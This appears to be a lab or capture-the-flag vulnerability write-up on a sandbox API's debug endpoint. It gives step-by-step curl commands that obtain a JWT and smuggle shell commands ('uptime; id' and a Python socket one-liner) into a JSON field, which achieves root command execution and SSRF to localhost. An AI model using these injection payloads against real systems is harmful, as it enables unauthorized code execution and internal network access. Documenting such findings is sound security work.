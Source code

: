 **Summary:**

- **Vulnerable location:** POST /api/debug endpoint
- **Impact:** Network boundary bypass via command injection, enabling SSRF attacks to access internal services
- **Severity:** High

**Prerequisites:**

- Valid JWT authentication token (obtained via user registration or authentication bypass)
- Access to debug endpoint at `/api/debug`

**Exploitation Steps:**

1. **Obtain Authentication Token via User Registration:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/users>" \\
      -H "Content-Type: application/json" \\
      -d '{"user": {"username": "ssrftester", "email": "ssrftester@example.com", "password": "password123"}}'
    
    ```
    
    **Response:** JWT token in response body: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InNzcmZ0ZXN0ZXIiLCJleHAiOjE3NTkxNzQ0OTMsInN1YiI6ImFjY2VzcyJ9.gvXEUVS_STxz-JepDoVWgPRWBrmQ2PWZaQC0PDmBCbM`
    
2. **Test Command Injection Vulnerability:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/debug>" \\
      -H "Content-Type: application/json" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -d '{"body": {"command": "uptime; id"}}'
    
    ```
    
    **Response:** Command injection confirmed with root privileges and injection flag
    
3. **Demonstrate Internal Network Access via SSRF:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/debug>" \\
      -H "Content-Type: application/json" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -d '{"body": {"command": "uptime; /usr/local/bin/python3 -c \\"import socket; s=socket.socket(); s.connect(('"'"'127.0.0.1'"'"', 8000)); print('"'"'Connected to 127.0.0.1:8000'"'"'); s.close()\\""}}'
    
    ```
    
    **Response:** Successful socket connection to internal service confirmed
    

**Proof of Impact:**

- **Command Injection Confirmed:** Successfully executed arbitrary commands via `;` command chaining
- **Root Privileges:** Executed commands run as uid=0(root) with full system access
- **Network Boundary Bypass:** Successfully established socket connections to internal services (127.0.0.1:8000)
- **Flag Retrieved:** `flag{1nject10n_Ap1}` - indicates successful command injection exploitation
- **Internal Service Access:** Demonstrated ability to connect to localhost services, proving SSRF capability through the command injection vector

